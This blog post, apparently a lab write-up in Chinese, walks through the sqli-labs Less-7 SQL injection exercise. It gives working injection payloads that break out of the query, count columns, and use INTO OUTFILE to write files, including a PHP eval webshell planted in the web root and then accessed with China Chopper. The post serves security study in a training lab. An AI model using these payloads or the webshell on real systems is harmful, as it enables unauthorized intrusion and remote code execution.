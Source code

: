 ```yaml
---
layout: post
title: SQL导出文件GET字符型注入(less7)
date: 2021-06-05 19:15 +0900
category: sql-inject
---
```

## 0x0 SQL注入基本姿势
**outfile()**  
outfile函数可以将查询到的数据存放到一个指定文件种，可以利用这个函数写入一句话木马，或者将查询结果写入文件,可以多行输出
## 0x1 LESS-7
**存在注入点**
![](/images/20210605-1.png)
**成功闭合**  
`?id=1')) --+`  
![](/images/20210605-2.png)
**只存在3列**
`?id=1')) order by 4 --+`  
![](/images/20210605-3.png)
**利用outfile**  
`?id=1')) union select  1,2,3 into outfile "C:/phpstudy/WWW/sqli-labs/Less-7/1.txt" --+`  
![](/images/20210605-4.png)
![](/images/20210605-5.png)
**写入一句话**  
`?id=1')) union select 1,2,"<?php @eval($_POST['123']);?>" into outfile "C:/phpstudy/WWW/sqli-labs/Less-7/shell.php" --+`
![](/images/20210605-6.png)
![](/images/20210605-7.png)
**菜刀连接**  
![](/images/20210605-8.png)

**查询结果写入文件**  
`?id=1')) union select version(),database(),user() into outfile "C:/phpstudy/WWW/sqli-labs/Less-7/2.txt" --+`  
![](/images/20210605-9.png)
![](/images/20210605-10.png)
**之后操作和之前的关卡一样**  